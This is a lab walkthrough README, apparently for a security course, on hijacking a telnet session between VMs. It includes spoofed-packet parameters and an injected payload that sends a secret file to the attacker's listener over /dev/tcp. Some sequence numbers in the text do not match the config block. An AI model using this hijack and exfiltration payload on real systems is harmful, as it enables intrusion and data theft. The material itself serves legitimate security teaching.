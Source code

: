 ## TCP Session Hijacking Attack

### Requirements 

In this lab, we will hijack a telnet session (between the victim client and the victim server) and inject a malicious command. In particular, the attacker wants to see the content of a secret file (stored on the server). At the end of this lab, if the attack is successful, the content of this secret file will be displayed in the attacker's terminal window.

### Setup

3 Linux VMs. VM1 as the victim (telnet client); VM2 as the telnet server; VM3 as the attacker. The 3 VMs reside in the same network. This README uses the following IP addresses.

| VM Name     | IP Address  |
|-------------|-------------|
| VM1         | 10.0.2.4    |
| VM2         | 10.0.2.5    |
| VM3         | 10.0.2.6    |

### Steps

1. let the client connect to the server using telnet.

![alt text](lab-tcp-hijack-telnet.png "Lab tcp session hijacking telnet")

2. the client uses this *echo* command to create a secret file on the server.

![alt text](lab-tcp-hijack-echo.png "Lab tcp session hijacking echo")

3. the client uses the *cat* command to confirm the file now exists and is located at /home/seed/secret:
![alt text](lab-tcp-hijack-cat.png "Lab tcp session hijacking cat")

4. let the attacker start monitoring network traffic using wireshark.

![alt text](lab-tcp-hijack-start-wireshark.png "Lab tcp hijack start wireshark")
![alt text](lab-tcp-hijack-start-capture.png "Lab tcp hijack start capture")

5. client produces some telnet packets. (any telnet packets, you can just type a command like *ls*).

![alt text](lab-tcp-hijack-ls.png "Lab tcp hijack ls command")

6. attacker stops wireshark capturing, and navigates to the latest packet sent from the client to the server.

This image shows the ip addresses, and the ttl attribute.
![alt text](lab-tcp-hijack-capture1.png "Lab tcp hijack latest tcp capture - part 1")

This image shows the port numbers, the next sequence number, the acknowledgment number, and the window size - still the same packet.
![alt text](lab-tcp-hijack-capture2.png "Lab tcp hijack latest tcp capture - part 2")

7. the above packet provides the information which the attacker needs to know in order to perform the tcp reset attack. now, the attacker, mimicking the client, only needs to send one single regular TCP packet to the server. To send a regular TCP packet, a python script named send_tcp.py is provided. When running this script, it will send a TCP packet to a destination. You need to change the script so that the following 9 lines match with your situation.

```console
source_ip = "10.0.2.4"
destination_ip = "10.0.2.5"
source_port = 45736
destination_port = 23
sequence_num = 1717083005
acknowledgment_num = 1242665292
ttl_value = 64
window_size = 501
tcp_payload = "\rcat /home/seed/secret > /dev/tcp/10.0.2.6/9090\r"
```

**Note**: because the attacker is mimicking the client, thus the source ip address needs to be the client's IP address; from the captured latest packet, we can see the next sequence number is *2523450797*, the acknowledgment number is *311613137*; the source port (in this example) is 45736, the destination port is 23. the tcp window size (in this example) is 501, the time to live (ttl) value is 64. The tcp data we can use is: "\rcat /home/seed/secret > /dev/tcp/10.0.2.6/9090\r".

**Explanation**: The telnet command we want to inject is: "cat /home/seed/secret > /dev/tcp/attacker_ip/9090", but we want this command to be sandwiched by two newline signs "\r", so that the command will not be concatenated with other random strings.

**Explanation 2**: why the telnet command we want to inject is "cat /home/seed/secret > /dev/tcp/attacker_ip/9090". Because "cat /home/seed/secret" shows the content of the secret file, but this command will only display the content in the victim client's terminal window, not in the attacker's terminal window. This "cat /home/seed/secret > /dev/tcp/attacker_ip/9090" will redirect the output of the cat command into a tcp port 9090 at the attacker's ip address. Thus we come to our next step,

8. before running the script, the attacker needs to open another terminal window so that the attacker can listen on a port at the attacker's IP address - here we choose port 9090, which matches with what is specified in the python script.

8.1. Listening in one terminal window:
![alt text](lab-tcp-hijack-listening.png "Lab tcp hijacking attack listening on port 9090")

8.2. Run python script in another terminal window:
- before and after pressing enter to run the script:
![alt text](lab-tcp-hijack-after-enter.png "Lab tcp hijacking attack before pressing enter")
![alt text](lab-tcp-hijack-after-enter.png "Lab tcp hijacking attack after pressing enter")

9. once the attacker pressed enter to execute the above script, if the attack is successful, the victim server's secret file will be displayed in the attacker's terminal window:

![alt text](lab-tcp-hijack-success.png "Lab tcp session hijacking attack successful")

This indicates that the attack is successful and concludes the lab.

